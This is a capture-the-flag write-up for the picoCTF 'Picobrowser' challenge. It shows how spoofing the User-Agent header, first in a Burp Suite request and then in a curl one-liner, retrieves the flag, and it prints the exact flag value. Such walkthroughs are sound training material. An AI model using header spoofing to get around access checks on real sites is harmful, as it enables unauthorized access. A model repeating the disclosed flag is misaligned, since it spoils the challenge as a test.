



# Picobrowser
Author: dch0017

## Challenge Description
This website can be rendered only by picobrowser, go and catch the flag!

## Accessing Site
First we head to the site and we are greeted by this: </br>

</br>

## Flag Button
Well this could be easy, there is a giant flag button. Let's go ahead and press it:</br>

</br>

Well clearly I don't have picobrowser as it's not real, but the words after ```Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36``` look like the ```User-Agent``` header in a web request.

## User-Agent
Let's pop open burp suite and navigate back to the site, intercept that initial request, and modify our ```User-Agent``` header to be ```picobrowser```.

After editing our request will look like:
```
GET /problem/26704/flag HTTP/1.1
Host: jupiter.challenges.picoctf.org
Upgrade-Insecure-Requests: 1
User-Agent: picobrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://jupiter.challenges.picoctf.org/problem/26704/flag
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

## Success
After forwarding the request, we get in and there is our flag:</br>

</br>

We could have also done this from command line so let's look at that.

## Linux
```console
┌──(dch0017㉿linux)-[~]
└─$ curl "https://jupiter.challenges.picoctf.org/problem/26704/flag" -H "user-agent:picobrowser" -s | grep -o "picoCTF{.
*}" --color=none
picoCTF{p1c0_s3cr3t_ag3nt_e9b160d0}
```